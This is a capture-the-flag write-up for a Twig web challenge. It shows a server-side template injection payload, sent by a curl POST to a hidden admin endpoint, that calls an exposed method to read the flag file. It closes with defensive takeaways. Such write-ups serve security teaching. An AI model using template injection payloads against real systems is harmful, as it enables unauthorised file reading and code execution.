

# 🧩 Challenge: Es Es Teh Ais


-orange)

---

## Description

The challenge provides a corporate portal for **Lumina**, built using the **Twig templating engine**. The objective is to access a hidden functionality and retrieve the flag.

---

## Initial Analysis

By reviewing the provided source code, we identify:

* The application uses **Twig**
* There exists a hidden endpoint:

```text id="twig1"
/admin/submit-ticket
```

---

## Vulnerability Discovery

The endpoint behavior:

* Accepts POST request with `message` parameter
* If input is **not a number**, triggers a *System Panic*
* During panic, it renders a Twig template

⚠️ Critical finding:

> The template has access to an object called `_panic_handler`

---

## Code Insight

From `SystemKernel.php`, we find a sensitive method:

```php id="twig2"
invokeEmergencyProtocol()
```

This method:

* Opens `flag.txt`
* Returns its contents

---

## Exploitation

Since user input is rendered in Twig, we can inject template expressions.

### Payload

```twig id="twig3"
{{ _panic_handler.invokeEmergencyProtocol() }}
```

---

## Execution

Send a POST request using `curl`:

```bash id="twig4"
curl -X POST http://206.189.34.228:8086/admin/submit-ticket \
-d "message={{ _panic_handler.invokeEmergencyProtocol() }}"
```

---

## Exploit Result



> *(Flag returned in response)*

---

## Final Flag

```text id="twigflag"
ictff8{SSTI_Tw1g0wn3d_bY_uS!!!!}
```

---

## Tools Used

* 🌐 Web Browser
* 🐧 curl

---

## Skills Developed

* Identifying SSTI in Twig
* Exploiting template rendering logic
* Understanding object access in templates
* Leveraging backend methods for exploitation

---

## Key Takeaways

* Never render user input directly in templates
* Template engines can expose internal objects
* SSTI can lead to:

  * File disclosure
  * Remote code execution
* Hidden endpoints are often critical attack surfaces

---
